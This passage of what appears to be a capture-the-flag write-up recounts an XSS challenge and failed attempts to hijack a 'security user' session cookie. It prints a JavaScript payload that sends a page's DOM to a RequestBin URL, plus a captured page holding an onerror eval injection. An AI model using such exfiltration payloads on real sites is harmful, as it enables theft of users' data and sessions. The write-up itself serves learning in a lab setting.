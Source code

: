 The existence of this page made me think we had to steal the security user's session cookie somehow and then go to the /user page and proceed from there. WHEN I TELL YOU I SPENT SO LONG trying to decipher the user tokens and how they were generated...

Anyways this was not the answer.

### RequestBin Pain
So RequestBin, aka Pipedream (I believe RequestBin is a service provided by Pipedream, but for the purposes of this CTF I'm going to use them interchangeably), is an online service that will handle pretty much whatever HTTP methods you throw at it. So I requested the DOM with:

```
var xhr = new XMLHttpRequest();
xhr.open("POST", "somerandomrequestbin.pipedream.net", true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("dom=" + encodeURIComponent(document.body.innerHTML));
```

which gave me the following (this was viewed in RequestBin):

```javascript
<script>
    // Create a variable to store cookie-like data
    let mockCookies = {
        session: "69189337-5f06-4529-ba37-88434e416db6"
    };

    // Override the document.cookie setter
    Object.defineProperty(document, 'cookie', {
        get: function() {
            return Object.entries(mockCookies).map(([key, value]) => `${key}=${value}`).join('; ');
        },
        set: function(cookie) {
            let [nameValue, ...options] = cookie.split('; ');
            let [name, value] = nameValue.split('=');
            mockCookies[name] = value;
        }
    });


<img src="x" onerror="eval(String.fromCharCode(102,101,116...))"></img>
```

I LITERALLY THOUGHT THIS WAS ANOTHER UUID PROBLEM. I was setting cookies, getting cookies, analyzing that UUID, seeing if that UUID changed between requests (it didn't), trying EVERYTHING to see if I could somehow access what I was looking for.

Something else that was kind of interesting is that when I sent that request, RequestBin actually logged two requests--one from my IP and one from a Digital Ocean IP that I identified as a Target CTF IP. So I figured out that the second IP was actually the IP of the "security user" and proceeded to look into their headers, which didn't give me that much information.

### Trying To Hijack Session Cookies
...pain.

I didn't really get anywhere with this, and I mostly just poked around before giving up and trying a method that actually worked. In any case. I probably wasted a good few hours on this too.